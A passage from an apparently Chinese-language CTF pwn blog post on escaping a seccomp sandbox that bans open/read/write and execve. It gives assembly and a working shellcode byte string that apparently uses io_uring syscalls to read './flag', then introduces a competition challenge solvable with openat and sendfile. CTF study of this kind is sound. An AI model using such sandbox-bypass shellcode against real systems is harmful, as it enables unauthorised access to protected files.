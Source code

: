 ```x86asm
mov    eax,r12d
syscall
add    rsp,0x68
xor    eax,eax
pop    rbx
pop    rbp
pop    r12
pop    r13
pop    r14
pop    r15
ret
cs (bad)
```

机器码如下

```c
shellcode = b'AW\xb9\x1e\x00\x00\x00AVAUE1\xedATD\x89\xe8USH\x83\xechH\x8d|$\xf0H\x8dt$\xf0\xf3\xab\xbf\x10\x00\x00\x00\xb8\xa9\x01\x00\x00\x0f\x05\xbb\t\x00\x00\x00I\x89\xc4A\x89\xc6A\x89\xc0E1\xc9A\xba\x01\x00\x00\x00\xba\x03\x00\x00\x001\xff\xbe\x00\x10\x00\x00\x89\xd8\x0f\x05A\xb9\x00\x00\x00\x08H\x89\xc5\x89\xd8\x0f\x05A\xb9\x00\x00\x00\x10I\x89\xc7\x89\xd8\x0f\x05\xb9\x10\x00\x00\x00H\x89\xc3H\x89\xc7D\x89\xe8\xf3\xabD\x89\xe7A\xbc\xaa\x01\x00\x00E1\xc9E1\xc0\xba\x01\x00\x00\x00\xbe\x01\x00\x00\x00H\xb8\x12\x10\x00\x00\x9c\xff\xff\xffH\x89\x03H\x8d\x05\xc1\x00\x00\x00H\x89C\x10\x8bD$0\xc7D\x05\x00\x00\x00\x00\x00\x8bD$\x1c\xffD\x05\x00D\x89\xe0\x0f\x05\x8bD$TH\x89\xdf\xb9\x10\x00\x00\x00A\x8bT\x07\x08D\x89\xe8L\x8d|$\x8c\xf3\xab\xc6\x03\x16\x8bD$0D\x89\xf7\x89S\x04\xba\x01\x00\x00\x00L\x89{\x10\xc7C\x18d\x00\x00\x00\xc7D\x05\x00\x00\x00\x00\x00\x8bD$\x1c\xffD\x05\x00D\x89\xe0\x0f\x05\xb9\x10\x00\x00\x00D\x89\xe8H\x89\xdf\xba\x03\x00\x00\x00\xf3\xabL\x89{\x10D\x89\xf7H\xb8\x17\x00\x00\x00\x01\x00\x00\x00H\x89\x03\x8bD$0\xc7C\x18d\x00\x00\x00\xc7D\x05\x00\x00\x00\x00\x00\x8bD$\x1c\xffD\x05\x00D\x89\xe0\x0f\x05H\x83\xc4h1\xc0[]A\\A]A^A_\xc3./flag'
```





## 比赛例题



#### 御网杯半决赛线下

![image-20250717222541764](/assets/image /2025-08-01-my-second-post.assets/image-20250717222541764.png)

虽然保护全开，但是mmap把写入地方的权限改成可读可写可执行了，问题就是沙盒把orw和execve全禁了



![image-20250717222830814](/assets/image /2025-08-01-my-second-post.assets/image-20250717222830814.png)



之前比赛一筹莫展，主要是积累函数太少了，可以用opennat,sendfile替代的

exp:

##### 用opennat,sendfile替代
